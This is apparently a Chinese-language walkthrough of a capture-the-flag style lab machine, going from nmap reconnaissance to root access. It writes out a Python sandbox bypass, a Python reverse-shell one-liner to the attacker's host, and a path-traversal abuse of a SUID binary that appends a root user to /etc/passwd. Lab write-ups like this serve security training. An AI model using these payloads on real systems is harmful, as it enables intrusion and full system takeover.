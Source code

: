 #### 信息收集

1. 主机发现：nmap -sn -PE -n 192.168.2.0/24
   192.168.2.7是新增加的IP地址
2. 端口扫描：nmap -sT -T4 -p- 192.168.2.7

   PORT   STATE SERVICE
   22/tcp open  ssh
   80/tcp open  http
3. 详细服务以及操作系统信息：nmap -sT -sV -T4 -O -p22,80 192.168.2.7
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 8.5 (protocol 2.0)
   80/tcp open  http    Apache httpd 2.4.46 ((Unix) mod_wsgi/4.7.1 Python/3.9)

   OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
   OS details: Linux 4.15 - 5.6
4. 打开dirsearch目录扫描，同时查看80端口

#### Web渗透

1. 页面是一个python在线运行服务，推测有可能是命令执行漏洞
2. dirsearch扫描结束，得到robots.txt，login文件，访问robots.txt文件，
   Disallow: /register
   Disallow: /login
   Disallow: /zbir7mn240soxhicso2z
3. 访问zbir7mn240soxhicso2z：
   Username: steve
   Password: bvbkukHAeVxtjjVH
4. 用拿到的账户密码登录：Welcome back，Steve！
   进入python在线IDE
5. 看到这样一句话：This online IDE is protected with NoImportOS™, an unescapable™ sandbox. NoImportOS™ is secure because of its simplicity; it's only 9 lines of code ([available here](http://192.168.2.7/noimportos_sandbox.py)).This way attackers won't be able to **exec**ute anything malicious
   点击[available here](http://192.168.2.7/noimportos_sandbox.py)，查看过滤代码，import，os都被过滤，但明显有一个exec提示，利用字符串相加来绕过，payload：

   exec('impor'+'t o'+'s')
   exec('o'+'s'+'.system("/bin/bash")')

   拿到网站权限
6. 再反弹一个shell到kali上提高交互性：
   kali开启nc：nc -nlvp 4444

   ```
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
   ```

#### 权限提升

1. suid提权，查询具有suid的命令：find / -perm -u=s -type f 2>/dev/null
   typing命令可执行，查看typing.cc

   ```c++
   int main() {
       std::cout << "Let's play a game! If you can type the sentence below, then I'll tell you my password.\n\n";

       std::string text = "the quick brown fox jumps over the lazy dog";


       std::cout << text << '\n';

       std::string line;
       std::getline(std::cin, line);

       if (line == text) {
           std::ifstream password_file("/home/py/password.txt");
           std::istreambuf_iterator<char> buf_it(password_file), buf_end;
           std::ostreambuf_iterator<char> out_it(std::cout);
           std::copy(buf_it, buf_end, out_it);
       }
       else {
           std::cout << "WRONG!!!\n";
       }
   }
   ```

   只要输入等同于text的内容就能得到密码，运行typing，输入"the quick brown fox jumps over the lazy dog",得到密码：

   54ezhCGaJV
2. cat etc/passwd:py:x:1000:1000::/home/py:/bin/bash，得到的密码是显然是py用户的
   su py切换用户，呼啊咪是py，得到普通用户权限
3. 刚刚不能看的secret_stuff可以查看了，有backup命令和backup.cc文件，bakeup命令有suid去权限，查看backup.cc

   ```c++
   int main() {
       std::cout << "Enter a line of text to back up: ";
       std::string line;
       std::getline(std::cin, line);
       std::string path;
       std::cout << "Enter a file to append the text to (must be inside the /srv/backups directory): ";
       std::getline(std::cin, path);
   //  /srv/backups/../../etc/passwd
       if (!path.starts_with("/srv/backups/")) {
           std::cout << "The file must be inside the /srv/backups directory!\n";
       }
       else {
           std::ofstream backup_file(path, std::ios_base::app);
           backup_file << line << '\n';
       }
       return 0;
   }
   ```

   backup命令的作用是追加字符串到文件的末尾，利用判断是否以/srv/backups/限制用户的行为，我们可以用../达到读写任意文件的目的
4. 通过修改/etc/passwd文件增加root权限用户：

   ```
   passwd文件结构：
   py:x:1000:1000::/home/py:/bin/bash
   username:Encrypted password:UID:GID:Gecos Field:Home Directory:Shell
   username：登录用户的名称
   Encrypted password：x表示加密密码，实际存储在/shadow文件中。如果用户没有密码，则密码字段将用*（星号）表示
   User Id (UID)：必须为每个用户分配一个用户ID（UID）。Uid 0（零）为root用户保留，UID 1-99为进一步的预定义帐户保留，UID 100-999为管理目的由系统保留。UID 1000几乎是第一个非系统用户，通常是管理员。如果我们在Ubuntu系统上创建一个新用户，它将被赋予UID 1001
   Group Id (GID)：表示每个用户的组；与UID一样，前100个GID通常保留以供系统使用。GID为0与root组相关，GID为1000通常表示用户。新组通常分配GID从1000开始
   Gecos Field：通常，这是一组以逗号分隔的值，用于说明与用户相关的更多详细信息
   Home Directory：表示用户主目录的路径，其中存储用户的所有文件和程序。如果没有指定的目录，则/将成为用户的目录
   Shell：它表示（由用户）执行命令并显示结果的默认shell的完整路径
   ```

   ```
   openssl passwd用法：
   openssl passwd -1 -salt username password
   -l:MD5加密
   -salt:指定salt值，不使用随机产生的salt
   ```

   执行命令：openssl passwd -1 -salt hacker 123456

   得到：`$1$hacker$6luIRwdGpBvXdP.GMwcZp/`
5. 构造要添加的内容：

   `hacker:$1$hacker$6luIRwdGpBvXdP.GMwcZp/:0:0::/root:/bin/bash`
6. 执行backup命令：

   ```
   Enter a line of text to back up:hacker:$1$hacker$6luIRwdGpBvXdP.GMwcZp/:0:0::/root:/bin/bash
   Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../etc/passwd
   ```
7. 切换hacker用户：su hacker，密码123456

提权成功：

```
[root@archlinux ~]# whoami
root
[root@archlinux ~]# cat root.txt 
63a9f0ea7bb98050796b649e85481845

```
